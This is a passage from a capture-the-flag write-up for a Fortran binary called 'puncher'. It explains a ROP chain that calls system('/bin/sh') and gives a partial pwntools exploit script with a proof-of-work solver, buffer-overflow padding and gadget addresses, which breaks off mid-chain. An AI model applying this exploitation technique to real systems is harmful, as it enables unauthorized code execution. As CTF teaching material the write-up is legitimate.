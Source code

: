 Now we can send the second stage ROP chain, using the base address of the Fortran library. The Fortran library contains both the string `"/bin/sh"` and an import to `system`, so we can easily open a shell:

```
pop rdi gadget
address of "/bin/sh"
address of system
```

There is one more thing that we need to take care about: we use the overflow in `readString`, and then take control of the program when the main function returns. Between these two events, `punch(X, A)` is called. When we overflow the stack, we overwrite `A` as well. If we put a random value in `A`, we might set it to a really big number, which means a segmentation fault will occur in `punch`, because it will try to read from beyond the bottom of the stack. To avoid this, we just set `A` to zero.

### Exploit script

```python
from pwn import *
import hashlib
from itertools import product

binary = ELF("./puncher")
libgfortran = ELF("./libgfortran.so.5")

def solve_pow(start_string, hash_end):
    for chars in product(string.ascii_letters, repeat=4):
        candidate = start_string + bytes(map(ord, chars))
        m = hashlib.sha256()
        m.update(candidate)
        if m.hexdigest().endswith(hash_end):
            print(f'POW solved: {candidate}')
            return candidate

    return None

if args.LOCAL:
    p = process("./puncher", env={"LD_PRELOAD": libgfortran.path})
else:
    p = connect("challs.m0lecon.it", 2637)
    p.recvuntil("Give me a string starting with ")
    start_string = p.recvuntil(" ")[:-1]
    p.recvuntil('such that its sha256sum ends in ')
    hash_end = p.recvuntil('.')[:-1].decode()
    p.sendline(solve_pow(start_string, hash_end))

p.sendlineafter("How many lines do you want to read?", str(2**24+1))

punch = binary.symbols["punch_"]
st_write_done = binary.got["_gfortran_st_write_done"]
pop_rdi = 0x00402033
pop_rsi_r15 = 0x00402031
address_of_eight = 0x00403330

payload = b'A'*0x40  # the original buffer
payload += b'B'*0xe  # some padding
payload += b'\x00\x00'  # set A to zero
payload += b'C'*0x10  # some padding
payload += b'D'*0x8  # saved RBP

# Here starts the rop chain
payload += p64(pop_rdi)
payload += p64(st_write_done)  # first argument of punch
```